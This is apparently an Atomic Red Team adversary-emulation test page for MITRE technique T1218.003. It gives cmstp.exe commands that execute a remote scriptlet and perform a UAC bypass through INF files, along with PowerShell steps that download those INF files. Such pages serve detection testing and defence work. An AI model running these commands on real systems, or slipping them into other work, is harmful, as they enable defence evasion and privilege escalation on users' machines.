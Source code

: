 ```yaml
---
tags: [T1218_003, atomic_test]
filename: "[[T1218.003|T1218.003 - Signed Binary Proxy Execution: CMSTP]]"
---
```

# T1218.003 - Signed Binary Proxy Execution: CMSTP

## Atomic Test #1 - CMSTP Executing Remote Scriptlet
Adversaries may supply CMSTP.exe with INF files infected with malicious commands

**Supported Platforms:** Windows


**auto_generated_guid:** 34e63321-9683-496b-bbc1-7566bc55e624





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| inf_file_path | Path to the INF file | path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s "#{inf_file_path}"
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{inf_file_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{inf_file_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.003/src/T1218.003.inf" -OutFile "#{inf_file_path}"
```




<br/>
<br/>

## Atomic Test #2 - CMSTP Executing UAC Bypass
Adversaries may invoke cmd.exe (or other malicious commands) by embedding them in the RunPreSetupCommandsSection of an INF file

**Supported Platforms:** Windows


**auto_generated_guid:** 748cb4f6-2fb3-4e97-b7ad-b22635a09ab0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| inf_file_uac | Path to the INF file | path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003_uacbypass.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s "#{inf_file_uac}" /au
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_uac})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{inf_file_uac}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{inf_file_uac}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.003/src/T1218.003_uacbypass.inf" -OutFile "#{inf_file_uac}"
```




<br/>
